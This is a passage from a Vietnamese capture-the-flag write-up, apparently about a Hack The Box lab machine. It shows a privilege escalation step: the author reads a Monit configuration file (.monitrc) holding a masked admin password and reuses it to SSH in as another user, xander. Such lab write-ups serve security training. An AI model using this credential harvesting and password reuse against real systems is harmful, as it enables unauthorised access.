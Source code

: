 ```python
-rw-r--r-- 1 dash dash    807 Jan  6  2022 .profile
drwx------ 2 dash dash   4096 May  7 08:15 .ssh
-rwxr-xr-x 1 dash dash  55816 May  7 08:16 customchmod
-rwxr-xr-x 1 dash dash 141832 May  7 08:20 customcp
-rwxrwxrwx 1 dash dash      0 May  7 08:17 data
-rw-r----- 1 root dash     33 May  7 08:05 user.txt
```

## Privilege escalation

Khai thác các file có trong thư mục của user *dash*, tôi tìm được một password trong file *.monitrc*

```python
dash@usage:~$ cat .monitrc
cat .monitrc
#Monitoring Interval in Seconds
set daemon  60

#Enable Web Access
set httpd port 2812
     use address 127.0.0.1
     allow admin:******************

#Apache
check process apache with pidfile "/var/run/apache2/apache2.pid"
    if cpu > 80% for 2 cycles then alert


#System Monitoring 
check system usage
    if memory usage > 80% for 2 cycles then alert
    if cpu usage (user) > 70% for 2 cycles then alert
        if cpu usage (system) > 30% then alert
    if cpu usage (wait) > 20% then alert
    if loadavg (1min) > 6 for 2 cycles then alert 
    if loadavg (5min) > 4 for 2 cycles then alert
    if swap usage > 5% then alert

check filesystem rootfs with path /
       if space usage > 80% then alert
```

Thử ssh với user *dash* nhưng không được. Kiểm tra */etc/passwd* và tôi có thêm 1 user nữa là *xander*. Thử ssh vào user này với password vừa tìm được

```python
┌──(kali㉿kali)-[~/Downloads]
└─$ ssh xander@10.10.11.18
xander@10.10.11.18's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Tue May  7 08:50:59 AM UTC 2024

  System load:           0.5537109375
  Usage of /:            66.3% of 6.53GB
  Memory usage:          23%
  Swap usage:            0%
  Processes:             258
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.18
```